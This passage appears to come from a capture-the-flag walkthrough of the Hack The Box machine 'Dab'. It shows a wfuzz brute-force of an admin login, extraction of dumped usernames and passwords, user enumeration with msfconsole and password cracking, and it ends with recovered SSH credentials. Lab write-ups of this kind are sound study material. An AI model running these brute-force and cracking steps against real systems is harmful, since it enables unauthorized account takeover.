 ```wfuzz -c -u http://10.10.10.86/login -w darkweb2017-top10000.txt -d "username=admin&password=FUZZ" -hh 542```


**get users**


![users-get-out](/assets/images/htb/dab/13.png)


and we got a json with a lot of users and pass.


![users-dump](/assets/images/htb/dab/14.png)


---


## Enumerating step


Using the module **json.tool** from python, we can get a more clear output.


```
cat users.txt | python -m json.tool > output.txt 
```
![clear-out](/assets/images/htb/dab/15.png)


now, let's separate users an passwords in different files.


```
cat output.txt | cut -d ":" -f 1 | cut -d '"' -f 2 > usernames.txt 
```
and:


```
cat output.txt | cut -d ":" -f 2 | cut -d '"' -f 2 > passwords.txt
```
Using msfconsole, we can enum the users with our "usernames.txt" file.


![msfprint](/assets/images/htb/dab/16.png)


It will run for a while, but, we'll found the user **genevieve**.


![user-found-msf](/assets/images/htb/dab/17.png)


now we need to get the password of that user. You can use john , hashcat or any online crackers(my case).


![password-crack](/assets/images/htb/dab/18.png)


got it!

 
now, we have the credentials `genevieve:Princess1`, so, lets test on ssh.
```